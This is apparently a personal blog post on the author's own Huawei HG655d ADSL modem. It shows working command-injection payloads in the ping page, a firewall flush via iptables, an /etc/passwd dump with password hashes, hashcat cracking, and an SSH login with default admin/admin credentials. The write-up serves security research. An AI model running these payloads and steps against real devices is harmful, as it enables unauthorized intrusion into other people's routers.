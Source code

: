 ```yaml
---
layout: post
title: "Hacking the Huawei HG655d"
thumbnail: todo-240.jpg
date: 2018-02-28
---
```




The Huawei HG655d is an obsolete ADSL modem.

## Command injection in ping

The modem's web interface has the functionality to ping IP addresses. This is a feature that is commonly vulnerable to command injection, as the entered IP address is copied into a command as argument to `ping`. The page that handles this request is conveniently named `executecmd.cgi`, and the response includes the output from the ping command:

    var PingResult = "PING 127.0.0.1 (127.0.0.1): 56 data bytes\n" + "64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.485 ms\n" + "64 bytes from 127.0.0.1: seq=1 ttl=64 time=0.332 ms\n" + "64 bytes from 127.0.0.1: seq=2 ttl=64 time=0.338 ms\n" + "64 bytes from 127.0.0.1: seq=3 ttl=64 time=0.332 ms\n" + "\n" + "--- 127.0.0.1 ping statistics ---\n" + "4 packets transmitted, 4 packets received, 0% packet loss\n" + "round-trip min/avg/max = 0.332/0.371/0.485 ms\n" + "";

First, I tried the payload `127.0.0.1;ls`. This fails, but only after a couple of seconds. This seems to indicate that our payload wasn't caught by any input validation, but rather interfered with the ping command. The payload `--help` doesn't give us the help text for ping. However, the payload `-c 1 127.0.0.1` correctly pings. After some tries, the payload `127.0.0.1;echo` gives an interesting result:

    var PingResult = "-c 4\n" + "";

This seem to be the remaining arguments to ping. The page runs `ping $INPUT -c 4`. Our payload ran `ping 127.0.0.1; echo -c 4`, which gave us `-c 4` in the PingResult. We can use this to run arbitrary commands. Let's try the payload `;echo $(ls)`:

    var PingResult = "var usr tmp sbin proc mnt linuxrc lib etc dev bin -c 4\n" + "";

This works.

## Logging in over SSH

Nmap gave the following result:

    Starting Nmap 7.50 ( https://nmap.org ) at 2017-10-09 16:43 CEST
    Nmap scan report for 192.168.40.1
    Host is up (0.012s latency).
    Not shown: 996 closed ports
    PORT    STATE    SERVICE
    22/tcp  filtered ssh
    23/tcp  open     telnet
    80/tcp  open     http
    443/tcp open     https

    Nmap done: 1 IP address (1 host up) scanned in 2.66 seconds

It seems that there is an SSH service, but it is filtered by the firewall. We can confirm that by running `netstat -l` using our command injection. That indeed shows something running on port 22. We can now also use the command injection to disable the firewall. By running `iptables -F INPUT` we flush all firewall rules and the SSH port is now exposed.

    # ssh root@192.168.40.1
    Unable to negotiate with 192.168.40.1 port 22: no matching key exchange method found. Their offer: diffie-hellman-group1-sha1

However, it runs some old version of SSH and uses old algorithms that are disabled in modern versions. We can explicitly enable them in the client:

    # ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oCiphers=3des-cbc root@192.168.40.1
    root@192.168.40.1's password: 
    Permission denied, please try again.

So now we can connect with SSH but we don't know the password.

## Cracking the password

Using our command injection, we retrieve `/etc/passwd`:

    0:Eh/.Fe0Q0yDIc:0:0:root:/home:/bin/sh
    ftp:B6GbxkUCDwEx2:0:0:ftp user:/mnt:/bin/sh

Two users. The root user seems to be called `0` instead of `root`, and the user `ftp` also seems to have user ID 0. Let's try to crack the passwords:

    $ cudaHashcat64.bin hg655d.txt weakpass.lst -m 1500
    ...
    B6GbxkUCDwEx2:
    Eh/.Fe0Q0yDIc:root
    
The ftp user has an empty password, and the root user has "root" as password. I already tried those passwords, and SSH won't give access. Maybe it is configured to deny password logins, or it is some embedded SSH server that doesn't work the way I assume it does.

After a quick search, I found credentials for [another modem](https://www.exploit-db.com/exploits/38663/): admin/admin. This works, but doesn't give a Linux shell:

    # ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oCiphers=3des-cbc admin@192.168.40.1
    admin@192.168.40.1's password: admin
    -------------------------------
    -----Welcome to ATP Cli------
    -------------------------------
    ATP>shell
    shell
    ATP>ls
    ls
    Command failed.
    ATP>
